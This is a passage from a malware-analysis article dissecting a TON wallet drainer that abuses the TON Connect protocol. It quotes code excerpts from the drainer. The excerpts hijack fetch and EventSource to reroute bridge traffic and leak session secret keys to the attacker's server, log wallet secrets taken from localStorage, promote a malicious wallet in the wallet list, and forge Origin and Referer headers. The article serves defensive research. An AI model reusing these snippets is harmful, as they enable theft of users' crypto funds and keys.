> - [**TonConnect Deep Dive**: How TON's Wallet Connect Protocol Powers DApps, by AllenHsu @ TONX Engineering](https://medium.com/tonx-lab/tonconnect-deep-dive-how-tons-wallet-connect-protocol-powers-dapps-f9ee67381c2a)
> - [**TON Documentation**: Ton Connect Workflow](https://github.com/ton-blockchain/ton-connect/blob/main/workflows.md)
> - [**TON Documentation**: Ton Connect Bridge API](https://github.com/ton-blockchain/ton-connect/blob/main/bridge.md)
> - [**TON Documentation**: Ton Connect Session Protocol](https://github.com/ton-blockchain/ton-connect/blob/main/session.md)
> - [**TON Documentation**: Ton Connect Requests Protocol](https://github.com/ton-blockchain/ton-connect/blob/main/requests-responses.md)

The final application our Team examined, the "Level 2" TON Drainer, is the most complex sample covered in this article.

It consists of 3 interconnected modules, including: 
- A standard Client application with a couple of new features;
- A WebSocket API that acts as the main Server;
- An HTTP API that acts as a Proxy Server and proxies requests to the Bridge;

Because of that, it is a great sample to see main modules of **TON Connect** (Bridge API, Session Protocol, Requests Protocol) in action.

### Sample 2: Redirection

Even though almost every other Drainer performs IP address checks to redirect the Users from the CIS region to the official [ton.org](https://ton.org) website and do so by querying various APIs to determine the User's location, it is worth mentioning that the Level 2 TON Drainer not only checks the User's IP address by getting response from the [cloudflare.com/cdn-cgi/trace](https://www.cloudflare.com/cdn-cgi/trace), but also considers their preferred language returned by `Navigator.language` read-only property.


### Sample 2: Client Side

The first thing that catches the eye in the Level 2 Client application implementation is that, among other imports, it embeds a JavaScript code, which belongs to the `@disable-devtool` **npm** package. It can be used to disable the Right-click menu, `F12` and `Ctrl + Shift + I` shortcuts, close the Website or suspend its execution when Users open Devtools, and so on.

During its deployment stage, the Drainer establishes connection with the other 2 modules: intializes a Request Listener for the HTTP API and a Protocol for the WebSocket. 

It also redefines native `fetch` and `EventSource` interfaces:

- The new `fetch` function checks if the URL's path includes a "`bridge`" substring and if so, rewrites the given URL: it replaces the Bridge's domain name with the one that points to the Drainer's HTTP API.
```js title="index.js"
...
        ns.fetch = function() {
            try {
                if (arguments[0].pathname.includes('bridge')) {
                    arguments[0] = new URL(`${useHttps ? 'https' : 'http'}://${apiURL}/bridge/${walletsApps.getAppByBridge(arguments[0].href).app_name}/message${arguments[0].search}`)
                }
            } catch (e) {}
            
            return fetch.apply(this, arguments);
        }
...
```

- The new constructor of the `EventSource` class modifies URLs that are passed to it in the same manner:
```js title="index.js"
...
        ns.EventSource = class EventSource extends EventSourceOrig {
            constructor(url) {
                const session = JSON.parse(localStorage.getItem('ton-connect-storage_bridge-connection'));
                if (session.sessionCrypto) {
                    url = `${useHttps ? 'https' : 'http'}://${apiURL}/bridge/${walletsApps.getAppByBridge(url).app_name}?pub=${session.sessionCrypto.publicKey}&sec=${session.sessionCrypto.secretKey}`;
                } else {
                    url = `${useHttps ? 'https' : 'http'}://${apiURL}/bridge/${walletsApps.getAppByBridge(url).app_name}?pub=${session.session.sessionKeyPair.publicKey}&sec=${session.session.sessionKeyPair.secretKey}`;
                }
                super(url);
            }
		}
...
```


### Note: Local Storage

Have a closer look at the resulting URLs crafted by modified `fetch` and `EventSource`:

- `https://<apiURL>/bridge/<app_name>/message<query>`
- `https://<apiURL>/bridge/<app_name>?pub=<publicKey>&sec=<secretKey>`

The query parameters `pub` and `sec` passed here are keys: a Public and a Secret one accordingly. Upon User's click on the "Connect Wallet" button, the DApp generates a X25519 keypair for the use with NaCl `crypto_box` protocol, and so does the Wallet. In both cases, the public key part of the keypair serves as the Client ID, which is semi-private and should not be shared with other entities in order to avoid having their messages removed. This process is required to guarantee an end-to-end encryption of DApp ↔ Bridge and Bridge ↔ Wallet communication.

These values (the DApp's public and private keys, the Wallet's public key), as well as the Wallet's name (`walletInfo.appName`) and the address of the User's Wallet (`userInfo.address`), are stored in the Local Storage. The Level 2 Drainer extracts them and sends to the WebSocket API in order to log:

```javascript title="index.js"
let secret = {}

if (JSON.parse(localStorage.getItem('ton-connect-storage_bridge-connection')).type === 'http') {
	const session = JSON.parse(localStorage.getItem('ton-connect-storage_bridge-connection'));
	const walletInfo = JSON.parse(localStorage.getItem('ton-connect-ui_wallet-info'));
	
	secret = {
		pub: session.sessionCrypto ? session.sessionCrypto.publicKey : session.session.sessionKeyPair.publicKey,
		sec: session.sessionCrypto ? session.sessionCrypto.secretKey : session.session.sessionKeyPair.secretKey,
		from: session.session.walletPublicKey,
		app: walletInfo.appName,
		address: userInfo.address
	}
}

await protocol.sendLog({
	method: 'pushChunk',
	userInfo,
	wallet,
	secret,
	chunk,
});
```

Apart from `ton-connect-storage_bridge-connection` and `ton-connect-ui_wallet-info`, **TON Connect** also stores a couple more keypairs in the application's Local Storage: `ton-connect-storage_http-bridge-gateway`, `ton-connect-ui_wallet-info`, `ton-connect-ui_preferred-wallet`, ...

Remember how `walletsListConfiguration[includeWallets]` appends all of the extra Wallets to the end of the Wallets list? Well, one can set the `ton-connect-ui_preferred-wallet` to store the name of the malicious Wallet for it to be placed at the very beginning of the list and be marked as "`Recent`":

```js title="index.js"
...
window.localStorage.setItem('ton-connect-ui_preferred-wallet', '<app_name>');
...
```


### Sample 2: Bridge HTTP API & Origin Forgery

Why store the values extracted from the Local Storage? Just in case, of course.

But this Drainer also implements an HTTP API that would act as a Proxy Server that intercepts requests sent to the Bridge, alters them and then replays. It requires "API key" validation to prevent external Users from interacting with its methods, and supports all of the routes the typical Bridge has:
- `GET /bridge/:wallet` – to connect to the Bridge's stream and subscribe to events;
- `POST /bridge/:wallet/message` – to send messages from client to client;
- `GET /bridge/:wallet/sendTransaction` – to send a message with the "`sendTransaction`" topic;

Plus there is a `GET /manifest/build` endpoint that makes it possible to make changes to the locally stored `tonconnect-manifest.json` file without the need to restart the application.

The whole point of this module is to replace the values passed to the `Host`, `Origin` and `Referer` headers within requests to the Bridge provider with an address of a legitimate service to trick it into thinking the requests come from a legitimate source, but only if the User's Wallet is _not_ **MyTonWallet** or **Telegram Wallet**:

```js title="api.js"
...
const getHeaders = (wallet, req) => {
    const template = (domain) => {
        return {
            'Host': domain,
            'Origin': `https://${domain}`,
            'Referer': `https://${domain}/`
        };
    }
    if (wallet === 'mytonwallet' || wallet === 'telegram-wallet') {
        return {
            'Origin': null
        }
    } else {
        return template('<LEGIT[.]site>')
    }
}
...
router.get('<ENDPOINT>', async function (req, res, next) {
    ...
    const getStreamAxios = () => {
        axios.get(`${bridgeUrl}/<ENDPOINT>`, {
            headers: {
                'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 YaBrowser/24.4.0.0 Safari/537.36',
                ...getHeaders(req.params.wallet, req)
            },
    ...
}
...
```


### Sample 2: WebSocket API

The most busy part of the Level 2 Drainer is its WebSocket API. This module consists of multiple submodules responsible for a wide set of functions:

- "Assets Scanner" – actively interacts with TON API, collets and writes down information regarding the User's Wallet: its address, TON balance, Jettons and NFTs, latest events;
- "Notification System" – handles the process of notifying the Drainer Operator on events via the Telegram Bot;
- "Bag of Cells Builder" – constructs bags of cells, payloads, that are later included into messages of transactions;
- ...

Some of these submodules are optional and provide extra features:

- "Auto Comission" – automatically sends a few TON to the User with a comment;
- "Swap" – automatically swaps Jettons for TON via DEX with the use of [**STON.fi SDK**](https://docs.ston.fi/developer-section/sdk/dex-v2/swap#swap-jetton-to-ton);
- "Proxy" – passes transactions through a proxy contract;
- ...

The Client communicates with the WebSocket API by querying its API methods, actions. As soon as the execution flow leads to the call of the `startTransactionMonitoring` action, the application enters a loop and checks on the latest events associated with the User's Wallet in order to get information on the target transaction's status.

We suppose that most of the elements present in the complex architecture of the Level 2 Drainer, as well as the use of WebSockets in particular, are directed towards concealing its suspicious activity as not to reveal the malicious intent behind it.

